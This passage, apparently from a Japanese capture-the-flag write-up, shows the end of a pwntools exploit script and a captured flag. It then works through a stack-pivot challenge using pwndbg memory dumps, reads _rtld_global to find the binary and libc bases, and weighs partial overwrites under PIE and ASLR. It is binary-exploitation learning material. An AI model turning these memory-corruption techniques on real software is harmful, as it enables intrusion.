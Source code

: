 ```python
)

p.recvuntil(b'> ')
input('ready: ')
p.sendline(payload)
p.recvline()

p.interactive()
```
フラグ: `ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}`  

## pivot4b++
相変わらず`0x40`までの入力が認められている
```
pwndbg> x/50gx $rsp
0x7fffffffe190: 0x4242424242424242      0x000000000000000a
0x7fffffffe1a0: 0x0000000000000000      0x0000000000000000
0x7fffffffe1b0: 0x0000000000000000      0x00007ffff7ffd000 <- rtld_global
0x7fffffffe1c0: 0x00007fffffffe1d0      0x000055555555522b <- retaddr
0x7fffffffe1d0: 0x00007fffffffe270      0x00007ffff7db86b5
0x7fffffffe1e0: 0x00007ffff7fc6000      0x00007fffffffe2f8
```

```
pwndbg> retaddr
0x7fffffffe1c8 —▸ 0x55555555522b (main+79) ◂— mov eax, 0
0x7fffffffe1d8 —▸ 0x7ffff7db86b5 (__libc_start_call_main+117) ◂— mov edi, eax
0x7fffffffe278 —▸ 0x7ffff7db8769 (__libc_start_main+137) ◂— mov r14, qword ptr [rip + 0x1be820]
0x7fffffffe2d8 —▸ 0x5555555550a5 (_start+37) ◂— hlt 
```

`rtld_global`なる領域がある
```
pwndbg> x/50gx 0x00007ffff7ffd000
0x7ffff7ffd000 <_rtld_global>:    0x00007ffff7ffe310      0x0000000000000004
0x7ffff7ffd010 <_rtld_global+16>: 0x00007ffff7ffe608      0x0000000000000000
0x7ffff7ffd020 <_rtld_global+32>: 0x00007ffff7f81000      0x0000000000000000
0x7ffff7ffd030 <_rtld_global+48>: 0x0000000000000000      0x0000000000000001

pwndbg> x 0x00007ffff7ffe310
0x7ffff7ffe310: 0x0000555555554000 <- binaryの先頭
pwndbg> x 0x00007ffff7f81000
0x7ffff7f81000: 0x00007ffff7d91000 <- libcの先頭
```

というかpivot先が分からない、PIEでASLRが効いているので。

- saved-rbpやretaddrの1バイトのみを書き換える?
	- ASLRが効いているから書き換えたところで、望んだアドレスになる訳ではない
	- 1つの値だけこれをするならまだ総当りできるが、2つも3つもやるならかなり現実的じゃない
- saved-rbpやretaddrの直前まで書き込むと、入力後の`printf`で`message`に連続した文字列として読める
	- 読めた後に操作できるわけではない
	- retaddrは読めるが、そのためにはretaddrを上書きしないことが求められ、結果として制御を移せたりするわけではない。

---